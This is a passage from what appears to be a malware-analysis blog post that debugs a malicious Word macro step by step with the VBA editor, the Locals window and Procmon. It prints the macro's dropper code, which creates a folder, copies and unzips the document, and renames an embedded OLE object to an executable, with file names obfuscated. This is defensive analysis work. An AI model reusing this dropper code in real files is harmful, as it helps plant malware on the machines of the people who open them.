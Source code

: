 Although the Visual Basic editor does not let us access the content without having the password, we were already able to visualize the macros previously by using _olevba_, which tells us that Microsoft Office does not store the macros encrypted at rest. That means that adding a password is not an effective control if what we are looking for is that they are not analyzed.

To skip the roadblock we have two options:
1. Execute the VBA code from a different file (since we obtained it previously with _olevba_)
2. Bypass the restriction in the original file

On this occasion I opted for the second option (how is beyond the scope of this article, but a quick Google search should suffice).

Once we have the macro open, we can use the F8 key to move instruction by instruction. We can use the "Locals" window to see the content being assigned to the variables as the instructions are executed:

![alt text](/img/003-locals.png "Use of locals")

The first interesting operation we expect is the creation of a folder named Wrdix+number in the user's path (in this case C:\users\tmn):

```vba
    mfolder = Environ$("USERPROFILE") & "\Wrdix" & "" & Second(Now) & "\"
    
    If Dir(mfolder, vbDirectory) = "" Then
        MkDir (mfolder)
    End If
```

We can verify that the directory was indeed created both by inspecting the folder and by using _Procmon_:

![alt text](/img/003-folderCreated.png "New folder")

![alt text](/img/003-procmonfolder.png "Folder creation in ProcMon")

The next operation we expect is for the document to be copied to the folder created, renamed domcxs.zip and extracted:

```vba
    FSEDEO.CopyFile Application.ActiveDocument.FullName, mfolder & Replace("do_mc_xs", "_", ""), True
    Name mfolder & Replace("do_mc_xs", "_", "") As mfolder & Replace("do_mc_xs.zi_p", "_", "")
    mShellApplication.Namespace(mfolder).CopyHere mShellApplication.Namespace(mfolder & Replace("do_mc_xs.zi_p", "_", "")).items
```
![alt text](/img/003-extractfolder.png "Document copied and extracted")

Then, we expect the file word\embeddings\oleObject1.bin to be renamed to "vteijam hdgtra.zip", extracted and the name of the extracted file to be changed to "vteijam hdgtra.exe":

```vba
    'The file mfolder\word\embeddings\oleObject1.bin is renamed to "mfoldder\word\vteijam hdgtra.zip"
    Name mfolder & "word\embeddings\oleObject1.bin" As mfolder & "word\" & mfile & Replace(".z_ip", "_", "")

    'The contents of "mfoldder\word\vteijam hdgtra.zip" are extracted to  mfolder
    mShellApplication.Namespace(mfolder).CopyHere mShellApplication.Namespace(mfolder & "word\" & mfile & Replace(".z_ip", "_", "")).items
    
    'The file mfolder\oleObjectfilewedum.bin is renamed as mfolder\mfile.exe
    Name mfolder & "oleObject" & filewedum & ".bin" As mfolder & mfile & Replace(".e_xe", "_", "")
```
